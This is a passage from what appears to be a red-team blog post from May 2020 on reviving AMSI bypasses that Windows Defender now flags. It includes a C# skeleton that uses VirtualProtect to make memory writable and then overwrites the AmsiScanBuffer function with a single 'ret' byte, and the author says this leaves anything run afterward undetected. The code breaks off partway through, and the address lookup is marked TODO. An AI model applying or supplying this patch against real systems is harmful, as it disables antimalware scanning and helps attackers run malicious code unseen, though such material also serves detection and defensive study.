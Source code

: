Calling this in Powershell via reflection (if using the C# DLL), the AMSI process is patched and effectively 'unhooked'. Anything we want to run now goes undetected by AMSI, this will no doubt still get logged and read by some human at some point in time but at this time, this is good! 

The problem nowadays is both AMSI and Defender don't like this bypass. Defender flags the DLL as malicious when dropped onto a box, and AMSI itself kicks off when running the bypass. This is due to the fact it "sees" the string "AmsiScanBuffer" and panics. This can be seen below:

![AMSI catching us]({{ site.url }}/assets/images/amsi_bypass/1_amsi_caught.png)

After messing around a little bit with seeing what Windows was and wasn't flagging, I found a couple of easy methods of resurrecting this favourite of mine and wanted to share them with anyone else who needs a cheeky bypass now and then. No doubt these will be flagged and probably "patched" at some point in the near future, but at this moment (20th May, 2020) they work.

## The Bypasses

There are 4 methods in total that I have put together, each using pretty much the same concept and skeleton as Rasta's bypass, merged with a 1 byte patch that me and Rich used in our dynamic AMSI patch from a VB macro. I believe we got the patching idea from <a href="https://twitter.com/_xpn_">Adam Chester (XPN)'s</a> patch within Rasta's script, but found out it worked with a single 'ret' rather than the full patch. In addition, if you haven't checked the work me and Rich did, feel free to check it out <a href="https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/">here</a>. It goes into AMSI in a little more depth and links out to posts that we read during our time working on that.

So here is the C# skeleton I have used for each of my bypasses:

```c#
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] patchBytes = new byte[] { 0xC3 };

    public static void Bypass()
    {
        try
        {
            // TODO: add unique logic here
            var addr;

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patchBytes.Length, 0x40, out oldProtect);

            Marshal.Copy(patchBytes, 0, addr, patchBytes.Length);
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
```